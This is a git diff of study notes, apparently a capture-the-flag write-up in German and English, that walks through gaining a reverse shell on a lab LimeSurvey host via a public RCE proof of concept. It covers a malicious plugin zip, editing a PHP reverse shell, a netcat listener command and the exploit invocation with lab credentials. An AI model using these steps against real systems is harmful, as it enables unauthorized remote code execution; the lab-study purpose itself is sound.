

.

diff --git a/unterpunkte/gaining-access/system-access/gaining-system-access.md b/unterpunkte/gaining-access/system-access/gaining-system-access.md
@@ -50,50 +50,91 @@ Das hier gefunden:
   - PoC: https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
   - Exploit DB: https://www.exploit-db.com/exploits/50573
 
-### PoC heruntergeladen:
 
-![img.png](poc-cve-folder.png)
+## Vorgehen:
 
-1. ```php-rev.php``` angepasst
-   - IP und Port auf eigene IP gestellt 
-
-![img.png](php-rev-shell-script.png)
-![img.png](own-ip-addr.png)
-2. t
+### 1. PoC heruntergeladen (https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/tree/main)
+![img.png](../../../img/poc-cve-folder.png)
 
 
+### 2. ```php-rev.php```
+- IP und Port angepasst (Eigene IP herausgefunden mit ```ip a```)
 
-
-
-HIER WEITER MACHEN
+![img.png](../../../img/php-rev-shell-script.png)
 
 
 
+### 3. Create a zip file with the config and the reverse shell code
+![img.png](../../../img/zipped-rev-shell-and-config.png)
 
 
 
+### 4. Upload & Install Plugin
 
-
-
-### Vorgehen:
-1. Login + go to configuration
-
+#### 4.1 Login + go to configuration
 ![img.png](../../../img/lime-configration.png)
 
-2. Under configuration navigate to the plugins
-
+#### 4.2 Under configuration navigate to the plugins
 ![img_1.png](../../../img/lime-plugins.png)
 
-3. Upload and install button
-
+#### 4.3 Upload and install button
 ![img_2.png](../../../img/lime-plugin-upload-and-install.png)
 
-4. Zip file upload
+#### 4.4 Upload & Install malicious zip file
+![img.png](../../../img/lime-upload-zip.png)
 
-![img_3.png](../../../img/lime-upload-zip.png)
+#### 4.5 Error -> Wrong Lime version
+![img.png](../../../img/wrong-lime-version.png)
+
+#### 4.6 Change version in config file / add version
+![img.png](../../../img/added-lime-version-in-config.png)
+
+#### 4.7 Try again -> works
+![img.png](../../../img/uploaded-zip-file.png)
+
+#### 4.8 Activate Plugin
+![img.png](../../../img/activate-plugin.png)
+
+#### 4.9 Get Plugin id by hovering over the plugin
+![img.png](../../../img/plugin-id.png)
 
 
+
+### 5. ```exploit.py ```
+
+#### 5.1. Script anpassen
+![img.png](../../../img/exploit-plugin-id.png)
+
+#### 5.2 Lokalen Pfad anpassen
+![img.png](../../../img/path-to-rev-shell.png)
+
+#### 5.3 Listen on ```Port 1337```
+```
+nc -lvp 1337
+
+   -l: Listen mode. Netcat will wait for an incoming connection.
+   -v: Verbose. Provides more detailed output.
+   -p: Local port to listen on.
+```
+![img.png](../../../img/nc-listening.png)
+
+#### 5.4 Exploit Datei ```exploit.py``` ausführen
+```
+python3 exploit.py URL username password port
+
+python3 exploit http://take-survey.heal.htb ralph 147258369 80
+```
+![img.png](../../../img/exploit-execute.png)
+![img_1.png](../../../img/reverse-shell-exploit.png)
+
+- Hat geklappt => Reverse Shell erlangt
 ---
+
+# Reverse Shell
+
+## Reverse Shell in Bash erweitern
+
+HIER WEITER
 
 
 
